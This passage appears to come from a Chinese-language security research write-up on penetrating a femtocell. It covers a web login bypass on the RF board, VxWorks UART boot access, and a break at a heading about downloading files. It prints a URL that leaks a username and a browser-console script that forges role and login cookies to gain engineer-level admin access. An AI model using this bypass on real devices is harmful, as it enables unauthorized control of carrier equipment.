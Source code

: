 
### 2.2 其它利用方式

- `/mnt/flash/nvm/femtoOamStore.db` 是 Sqlite3 的文件, 可以使用`sqlitebrowser`直接查看
- 闪灯 `/mnt/flash/led_ctrl.sh [on|off]`


## 3 RF 板卡渗透

### 3.1 Web 登录绕过

访问 <http://192.168.197.241/C/userProcessFunction.asp?reqType=4&role=marketUser> 获得用户名为

    abmoc@24320

然后在`USER.js`里发现原有的登录绕过问题没有得到修复, 于是在浏览器中打开Console, 输入以下脚本即可登录:

    SetCookie('role', 'marketUser');
    SetCookie('username', 'abmoc@24320'); 
    SetCookie('levels', [-2, 0, 1, 3, 11, 13, 15, 16]); 
    document.cookie = "loginFlag=1;";
    window.top.location = 'main.asp?r=' + Math.random() + '#index';

登录之后, 我们就拥有了与运营商派过来开站的工程师完全一样的操作权限! 

以下是一些管理界面截图:

![]({{ site.imageurl }}/femtocell/web-3.png)
![]({{ site.imageurl }}/femtocell/web-5.png)
![]({{ site.imageurl }}/femtocell/web-6.png)

然而发现乌云上之前曝出的文件上传下载的接口, 以及欢迎短信下发的接口代码已经完全被**删除**了! 但是真的删除了吗? 


### 3.2 Boot

看起来WEB上做不成啥事情, 于是在UART插座接上串口线, 转战硬件层. 

首先看到引导信息是

    CPU: TI OMAP-L138 - ARM926E (ARM)
    Version: VxWorks 6.8
    BSP version: 2.0/1
    Creation date: Sep 26 2012, 10:26:36

发现跑的操作系统是VxWorks, 引导结束之后, 提示输入用户名和密码. 暂时没有思路, 于是尝试进入Boot模式. 

在看到

    Press any key to stop auto-boot...

之时, 敲击键盘, 进入VxWorks Boot. 由于是一个陌生的环境, 首先打问号看帮助. 发现有几条命令可以用. 

但是`ls`命令只能看文件名, 不能看文件内容. 此外, 发现还有`cp`和`rm`两条命令可以用. 面对着大把大把的文件, 只能看文件名, 不能看文件内容, 好着急. 

#### 3.2.1 下载所有文件
